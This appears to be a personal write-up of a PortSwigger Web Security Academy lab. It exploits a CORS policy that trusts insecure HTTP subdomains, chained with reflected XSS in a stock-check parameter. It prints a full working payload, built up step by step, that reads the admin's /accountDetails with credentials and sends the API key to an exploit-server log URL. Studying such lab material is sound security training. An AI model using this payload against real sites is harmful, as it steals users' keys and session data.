

### CORS vulnerability with trusted insecure protocol : PRACTITIONER

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.


> We see this page.


> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.


> We see that the response contains the ACAC header, meaning that the CORS protocol is being used.

> We know that the valid origin is that of the lab.


> Try supplying a random wrong origin, then `null` to see that both are rejected.

| `  https://mins.com   `       | `null`                        |
| ----------------------------- | ----------------------------- |
|  |  |   

> Next step is to try manipulating the origin header.
> Check if it allows all subdomains of the allowed header by adding a random subdomain to the lab URL.


> We see that it is accepted, so we know that requests are trusted from anywhere that is a subdomain of the web application.
> Moreover, credentials are also accepted, so cookies are transferred keeping user sessions.
> So if we manage to execute scripts from within the website from a subdomain, an XSS attack, we can make the XSS payload issue a request to the `/accountDetails` page to obtain the admin apiKey.

> Browsing through the application, the only place where we can inject anything is through the check stock feature.



> With HTTP history, notice the request sent.


1. Uses HTTP not HTTPS.
2. It is a subdomain of the lab. `stock.URL`.
3. 2 parameters where we can inject user input.

> We checked if we can supply any subdomain to the `/accountDetails` page and it works, but we need to check if it works with http as well.


> That works, so we can proceed.
> Since it is a subdomain, then we can send requests to `/accountDetails` and get a response that confirms the origin is allowed.

> Finally, we need to check for XSS in the check stock request.
> Injecting in the `productId` parameter.
```HTML
<script>alert(1)</script>
```


> We see that the payload is produced exactly as is, and not encoded.
> This means that the javascript might execute, to confirm, show the response in browser by right clicking on the response and choosing show in browser.


> Therefore, we can execute javascript, and this means, we can try to add our payload to issue a request to `/accountDetails` to obtain the admin apiKey.
> We need to add this payload in the check stock request, so it should have the same host and protocol that this request has, doing that using `document.location`.
> The check stock request has URL: `http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net`.
> We add our HTML payload used in [[Portswigger/CORS/Lab 1|Lab 1]] in the productId parameter as it is the one vulnerable to XSS and allows JS execution.

```HTML
<script>
	document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/productId=<script>CORS PAYLOAD</script>&storeId=1"
</script>
```
> When the browser parses a script, it quits at the first `</script>` found, therefore, we need to encode the first `<` in the closing tag to `%3c`.

```HTML
<script>
	document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a2400220362b0f1808c710b008c00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a9200200324b0bf8091700d017000c3.exploit-server.net/log?key='+this.responseText;
    }; %3c/script>&storeId=1"
</script>
```
> We need to remove all new line characters.
> In the `reqListener()` function, we need to direct the dumping of the response the exploit server, so we need to pass its URL.
> We need to URL encode any `+` to `%2b` in the request to the exploit server otherwise they will be treated as arguments of the big request in `document.location`, `http://stock....`.

```HTML
<script>
document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2400220362b0f1808c710b008c00d3.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener () {location='https://exploit-0a9200200324b0bf8091700d017000c3.exploit-server.net/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```

> Adding this to the exploit server, storing, and delivering to victim.


> Opening the access log we see our api key for the admin user.


```
mm7uds6GPxJQ2tWye2w4MVsyRa0bv5zR
```

> Submitting it in the solution completes the lab.

---
